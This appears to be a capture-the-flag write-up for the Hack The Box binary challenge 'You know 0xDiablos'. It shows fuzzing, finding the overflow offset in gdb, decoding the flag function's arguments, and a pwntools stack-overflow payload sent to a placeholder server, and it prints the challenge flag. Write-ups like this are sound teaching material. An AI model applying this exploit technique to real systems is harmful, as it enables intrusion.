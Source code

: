 > **I missed my flag**

> Author: **[RET2pwn][author-profile]**

## Fast and failed

The binary asks for "OxDiablos" and then echoes our input:

```
You know who are 0xDiablos: 
&é"'(-è_çà)=$^*ù!:;,<>?./§µ%£+°²¬¹~#{[|`\^@]}¨¤^`·´| 
&é"'(-è_çà)=$^*ù!:;,<>?./§µ%£+°²¬¹~#{[|`\^@]}¨¤^`·``·´|
```

Apparently, special characters aren't.

Nothing outstanding from `binwalk`, `ltrace`, `strace`, `trid`, `exiftool`.

`strings -n4` returns:

```
flag.txt
flag
```

But this doesn't tell us how to approach the challenge.

## Overflowing

Fuzzing the binary gives: 

```
You know who are 0xDiablos: 
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiii
Segmentation fault (core dumped)
```

So 256 `i` break the binary and cause a segmentation fault / overwrite the
return address.

To locate the portion of the input which overwrites the return address, we
generate a cyclic pattern. In gdb / gef:

```bash
pattern create 256
```

Next, `run` break with `Ctrl + C` on the prompt and input the pattern.
Stepping through the following instructions, we reach the return at `vuln+62`.

At this point the stack pointer is on the return address. It has been
overwritten by a part of our input and contains "waab".

Any 4-byte segment in the pattern is unique, so we can use this to find the
actual portion that overwrote the return address:


```bash
pattern search waab
# or
pattern search $esp
```

> It is found at offset 188.

We still need to find a useful address to jump to.

## Jumping to the flag

Back at the start, we found a "flag" reference in the binary. It is actually
an exported function.

GDB can display its address:

```bash
# flag in section .text of /root/workspace/ctf/hackthebox/pwn/you-know-0xdiablos/vuln
info symbol flag
# Symbol "flag" is at 0x80491e2 in a file compiled without debugging.
info address flag
```

This will go at offset 188, making the binary jump to the flag function.

Ghidra allows to browse the code of "flag": it will output the content of the
"flag.txt" file on condition. The two parameters must be specific integers:

```c
if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
```

`-0x21524111` is a two's complement negation: it is actually `0xdeadbeef`.
Similarly, `-0x3f212ff3` is `0xc0ded00d`.

So we can finally craft a payload to trigger the execution of "flag":

```python
payload = pwn.cyclic(188)       # whatever
payload += pwn.p32(0x080491e2)  # flag() address
payload += pwn.p32(0X11111111)  # useless
payload += pwn.p32(0xdeadbeef)  # argument 1, -0x21524111 in 2's complement
payload += pwn.p32(0xc0ded00d)  # argument 2, -0x3f212ff3
```

And send this to the server:

```python
server = pwn.remote("1.2.3.4", 5678)
server.sendline(payload)
```

> HTB{0ur_Buff3r_1s_not_healthy}

[author-profile]: https://app.hackthebox.eu/users/47422
